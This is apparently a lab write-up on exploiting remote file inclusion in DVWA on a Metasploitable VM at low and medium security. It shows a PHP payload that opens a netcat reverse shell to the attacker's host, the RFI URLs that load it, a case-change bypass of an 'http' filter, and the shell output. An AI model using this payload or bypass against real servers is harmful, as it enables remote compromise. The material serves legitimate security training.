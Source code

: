 ### Remote File Inclusion Vulnerabilities-Low-Security

* Remote file inclusion vulnerabilties are similar to local file inclusion
* The difference is this time we run php files from another server onto this server.

* But first i'm to going to have to change the settings on the server to allow php files outside of this server.
* Allow_url and allow_url_fopen are two settings that need to be on before we can include any files outside of the server.

* Then restart the apache2 web server.

---

* For remote file inclusion to work you will need a server to host your php files on.
* But as i'm on the same network as the metasploitable machine i will not need this.

* So first create a php shell.

```php
<?php

passthru('nc -e /bin/sh 10.0.2.15 4444');

?>
```

* Then we save this as a .txt file as we don't want to being executed as php file on my machine.

* Now i'm to include this file on the metasplotable machine.
* But first setup a netcat listener

```
nc -vv -l -p 4444
```

* Now i append the php shell onto the end of the page.

```
http://10.0.2.5/dvwa/vulnerabilities/fi/?page=http://10.0.2.15/shell.txt
```

* Wait for my shell.

```
root@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 41786
ls -la
total 24
drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
-rw-r--r--  1 www-data www-data  488 Aug 26  2010 include.php
-rw-r--r--  1 www-data www-data  818 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

* Now i have recieved my reverse shell.


---

### Remote File Inclusion Vulnerabilities-Medium-Security

* Now i have increase the security level to medium.
* When i try the same exploit as before there is an error meaning there is a filter.
* The server is most likely filtering http.

* So we can bypass by changing the characters from uppercase and lowercase.

```
10.0.2.5/dvwa/vulnerabilities/fi/?page=hTtP://10.0.2.15/shell.txt
```

* You can see i just made the first h uppercase and the last p.

* Now we try again with setup the listener.

```
nc -vv -l -p 4444
```
* We recieve a php reverse shell.

```
root@kali:~# nc -vv -l -p 4444
listening on [any] 4444 ...
10.0.2.5: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.5] 47483
ls -la
total 24
drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
-rw-r--r--  1 www-data www-data  488 Aug 26  2010 include.php
-rw-r--r--  1 www-data www-data  818 Mar 16  2010 index.php
drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```


